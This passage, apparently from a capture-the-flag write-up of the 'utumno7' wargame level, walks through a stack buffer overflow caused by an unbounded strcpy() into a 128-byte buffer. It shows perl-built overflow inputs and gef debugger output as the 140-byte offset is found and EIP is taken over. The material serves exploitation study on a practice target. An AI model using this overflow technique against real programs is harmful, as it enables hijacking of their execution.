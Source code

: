 Skipping over the `_setjmp()` function call, it defines a 128-byte buffer named `var_124` and then calls the `strcpy()` function to copy the value of `argv[1]` into the buffer. Which is vulnerable to a **Buffer Overflow** as `strcpy()` has no bounds checking.

### Exploit Setup:
Through iterating through different lengths of input, I was able to discover that a 140-byte input is able to overwrite the **EIP**. However, if you try to jump to shellcode, it fails due to the **jmp** calls.\
Adding another 4-bytes to the input it seems to break after the call to `_setjmp()`.

```bash
gef> run $(perl -e 'print "A"x140 . "BBBB"')
──── registers ────
$eax   : 0x17
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x807fd178
$edx   : 0x080491cd  →  <vuln+0027> add esp, 0x4
$esp   : 0x807fd17c
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0x41414141 ("AAAA"?)
$edi   : 0x41414141 ("AAAA"?)
$eip   : 0x080491d0  →  <vuln+002a> mov DWORD PTR [ebp-0x4], eax
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──── stack ────
[!] Unmapped address: '0x807fd17c'
──── code:x86:32 ────
    0x80491c7 <vuln+0021>      push   eax
    0x80491c8 <vuln+0022>      call   0x8049050 <_setjmp@plt>
    0x80491cd <vuln+0027>      add    esp, 0x4
 →  0x80491d0 <vuln+002a>      mov    DWORD PTR [ebp-0x4], eax
    0x80491d3 <vuln+002d>      cmp    DWORD PTR [ebp-0x4], 0x0
    0x80491d7 <vuln+0031>      jne    0x80491f5 <vuln+79>
    0x80491d9 <vuln+0033>      push   DWORD PTR [ebp+0x8]
    0x80491dc <vuln+0036>      lea    eax, [ebp-0x120]
    0x80491e2 <vuln+003c>      push   eax
──── threads ────
[!] Id 1, Name: "utumno7", stopped 0x80491d0 in vuln (), reason: SIGSEGV
──── trace ────
[!] Cannot access memory at address 0x4242424a
```
If we replace the extra 4-bytes of *"B's"* with an address somewhere within the 140-bytes of *"A's"* we can fully control the return address.

```bash
gef> run $(perl -e 'print "A"x140 . "\xb0\xd1\xff\xff"')
──── registers ────
$eax   : 0x0
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xdbffd178
$edx   : 0x080491cd  →  <vuln+0027> add esp, 0x4
$esp   : 0xffffd1b8  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x41414141 ("AAAA"?)
$edi   : 0x41414141 ("AAAA"?)
$eip   : 0x41414141 ("AAAA"?)
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──── stack ────
0xffffd1b8│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"    ← $esp
0xffffd1bc│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd1c0│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd1c4│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```